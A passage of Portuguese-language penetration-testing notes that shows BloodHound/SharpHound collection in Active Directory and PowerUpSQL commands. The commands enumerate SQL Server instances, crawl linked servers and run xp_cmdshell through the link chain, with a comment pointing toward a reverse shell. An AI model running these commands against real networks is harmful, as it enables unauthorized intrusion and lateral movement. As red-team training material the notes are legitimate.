 Para a instalação dele na Kali, digite os comandos:

```bash
sudo apt-get install neo4j
sudo apt-get install bloodhound

# Apos finalizar a instalação, inicie a aplicação

neo4j console
bloodhound

# Mude a senha do neo4j (a padrão inicial não vai entrar)
#E arraste o *.zip pra dentro do bloodhound
```

Acesse esse blog para mais informações!

[BloodHound Tutorial](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)

Comandos para criação do .zip

```powershell
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
```

## MSSQL

Aqui iremos explorar um pouco o banco de dados do Active Directory!

### PoweUpSQL

[PowerUpSQL Tutorial](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

Comandos

```powershell
# Carregando o modulo
Import-Module PowerUpSQL.ps1

# Listar todos os SPN
Get-SQLInstanceDomain -Verbose

# Testando conectividade
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose –Threads 10 | Where-Object {$_.Status –eq "Accessible"}

# Verificando as cadeias de links que elas tem
Get-SQLInstanceDomain | Get-SQLServerLink

# Realizando o crawl dentro dos links
# Agora vamos fazer crawl por todo os links e vemos que temos uma cadeia boa de links por todos os servidores sql

Get-SQLServerLinkCrawl -Instance sql.server.acessivel.local -Verbose 

# Executando comandos através da chain
# Uma vez que temos acesso a chain, agora podemos executar comandos dentro dela (ou pelo menos tentar)

Get-SQLServerLinkCrawl -Instance sql.server.acessivel.local -Query "exec master..xp_cmdshell 'whoami'" | ft

# Reverse shell, lembrar de deixar o HFS e o powercat aberto

```
